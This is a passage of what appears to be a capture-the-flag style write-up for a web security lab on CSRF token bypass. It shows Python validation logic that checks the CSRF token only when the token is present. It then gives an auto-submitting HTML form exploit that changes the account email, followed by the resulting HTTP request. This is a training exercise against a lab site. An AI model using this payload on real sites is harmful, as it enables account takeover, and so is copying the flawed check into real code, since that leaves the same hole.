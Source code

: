 Performed token manipulation tests:

| Test | Result |
|------|--------|
| Delete token value | ❌ Error: "Missing parameter 'csrf'" |
| Remove token parameter entirely | ✅ Email changed! |

🚨 **Vulnerability Discovered:** Application only validates token **if it exists**.

### Step 2: Understand the Flaw

The application logic:

```python
# Vulnerable validation logic
if 'csrf' in request.form:
    if request.form['csrf'] != session['csrf_token']:
        return "Invalid CSRF token"
# If no csrf parameter, continue processing! ⚠️
```

### Step 3: Craft CSRF Exploit

Created exploit without CSRF token:

```html
<form method="POST" action="https://[lab-id].web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="attacker@normal-user.net">
</form>
<script>
    document.forms[0].submit();
</script>
```

### Step 4: Test Exploit

Request sent by exploit:

```http
POST /my-account/change-email HTTP/2
Host: [lab-id].web-security-academy.net
Cookie: session=a0sTOZnaK70NJHwCRsbPhcQiydFoxDF3
Content-Type: application/x-www-form-urlencoded

email=attacker@normal-user.net
```

**Result:** ✅ Email successfully changed without token!

---

## 🚩 Solution

**CSRF Exploit:**
```html
<form method="POST" action="https://[lab-id].web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="attacker@normal-user.net">
</form>
<script>
    document.forms[0].submit();
</script>
```

---